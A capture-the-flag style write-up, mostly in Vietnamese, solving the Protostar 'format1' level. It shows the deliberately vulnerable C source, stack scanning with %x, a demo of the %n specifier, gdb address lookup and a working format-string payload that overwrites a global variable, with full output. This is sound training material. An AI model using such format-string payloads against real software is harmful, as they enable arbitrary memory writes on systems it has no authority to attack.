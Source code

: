 # FORMAT ONE

## About

This level shows how format strings can be used to modify arbitrary memory locations.

Hints

  * objdump -t is your friend, and your input string lies far up the stack :)

This level is at /opt/protostar/bin/format1

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int target;

void vuln(char *string)
{
  printf(string);
  
  if(target) {
      printf("you have modified the target :)\n");
  }
}

int main(int argc, char **argv)
{
  vuln(argv[1]);
}
```

## Solutions

`FORMAT ONE` cho chúng ta thấy cách mà chúng ta có thể sử dụng chuỗi định dạng để thay đổi giá trị tại vị trí tùy ý trên bộ nhớ. Thử thách sẽ hoàn thành khi ta thay đổi được giá trị của biến toàn cục `target` != 0 và in ra `"you have modified the target :)"`.

Đầu tiên ta đi tìm input của chúng ta được định dạng ở parameter thứ mấy bằng cách quét stack.

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "ABCDEFGH" + ".%x" * 135')
ABCDEFGH.804960c.bffffb38.8048469.b7fd8304.b7fd7ff4.bffffb38.8048435.bffffd08.b7ff1040.804845b.b7fd7ff4.8048450.0.bffffbb8.b7eadc76.2.bffffbe4.bffffbf0.b7fe1848.bffffba0.ffffffff.b7ffeff4.804824d.1.bffffba0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffffbb8.6df3930f.47bd651f.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffffbe4.8048450.8048440.b7ff1040.bffffbdc.b7fff8f8.2.bffffcfe.bffffd08.0.bffffea6.bffffeba.bffffeca.bffffeec.bffffeff.bfffff09.bfffff1d.bfffff5f.bfffff76.bfffff87.bfffff8f.bfffff9a.bfffffa7.bfffffdd.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffffcdb.1f.bffffff2.f.bffffceb.0.0.0.0.f000000.897af4f1.9384902.1e7fa30d.6995b4d0.363836.0.0.0.2f2e0000.6d726f66.317461.44434241.48474645.2e78252e.252e7825.78252e78.2e78252e
```

"ABCD" được định dạng ở parameter thứ 130, ta sẽ căn chỉnh lại payload quét stack để dễ sửa đổi thành payload khai thác của chúng ta.

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "ABCDEFGH" + ".%x" * 129 + ".%x" + ".%x" * 5')
```

Bây giờ chúng ta sẽ tìm hiểu về một `type` định dạng chuỗi là `%n`. Định dạng chuỗi `%n` cho phép người sử dụng ghi vào địa chỉ là giá trị hiện tại của đối số số lượng ký tự được in ra màn hình.

VD: ta có code C `fmt_n.c` sau.

```
#include<stdio.h>

int main(){
	int val;
	val = 1;
	printf("val = %d\n", val);
	printf("blah %n blah\n", &val);		// "blah " have five character
	printf("val = %d\n", val);
	return 0;
}
```
Run code

```
$ ./fmt_n
val = 1
blah  blah
val = 5
```

Biến val đã bị thay đổi thành giá trị = 5.

Kết thúc vd tôi nghĩ đến đây bạn đã có thể hiểu được `%n` thực sự làm gì với biến hoặc một địa chỉ bất kỳ trong bộ nhớ khi nó được nhận làm đối số.

Vậy nên bây giờ việc chúng ta cần làm để vượt qua `FORMAT ONE` là tìm được địa chỉ của biến toàn cục `target` và thay `"ABCD"` bằng địa chỉ đó để chuỗi định dạng thứ 130 nhận nó làm đối số rồi viết vào đó giá trị khác 0 khi `%x` được thay `%n`.

Tìm địa chỉ của `target` = `gdb`:

```
root@protostar:/opt/protostar/bin# gdb -q ./format1
Reading symbols from /opt/protostar/bin/format1...done.
(gdb) p target
$1 = 0
(gdb) p &target
$2 = (int *) 0x8049638
(gdb)
```

Tiến hành khai thác:

```
root@protostar:/opt/protostar/bin# ./format1 $(python -c 'print "\x38\x96\x04\x08EFGH" + ".%x" * 129 + ".%n" + ".%x" * 5')
8EFGH.804960c.bffffb38.8048469.b7fd8304.b7fd7ff4.bffffb38.8048435.bffffd08.b7ff1040.804845b.b7fd7ff4.8048450.0.bffffbb8.b7eadc76.2.bffffbe4.bffffbf0.b7fe1848.bffffba0.ffffffff.b7ffeff4.804824d.1.bffffba0.b7ff0626.b7fffab0.b7fe1b28.b7fd7ff4.0.0.bffffbb8.f1fa7928.dbb48f38.0.0.0.2.8048340.0.b7ff6210.b7eadb9b.b7ffeff4.2.8048340.0.8048361.804841c.2.bffffbe4.8048450.8048440.b7ff1040.bffffbdc.b7fff8f8.2.bffffcfe.bffffd08.0.bffffea6.bffffeba.bffffeca.bffffeec.bffffeff.bfffff09.bfffff1d.bfffff5f.bfffff76.bfffff87.bfffff8f.bfffff9a.bfffffa7.bfffffdd.bfffffe6.0.20.b7fe2414.21.b7fe2000.10.f8bfbff.6.1000.11.64.3.8048034.4.20.5.7.7.b7fe3000.8.0.9.8048340.b.0.c.0.d.0.e.0.17.0.19.bffffcdb.1f.bffffff2.f.bffffceb.0.0.0.0.2e000000.7ccf99f4.572b8706.8ec651d0.6958b2da.363836.0.0.0.2f2e0000.6d726f66.317461..48474645.2e78252e.252e7825.78252e78.2e78252eyou have modified the target :)
root@protostar:/opt/protostar/bin#
```


## Documents

<https://en.wikipedia.org/wiki/Printf_format_string>

<https://stackoverflow.com/questions/3401156/what-is-the-use-of-the-n-format-specifier-in-c>




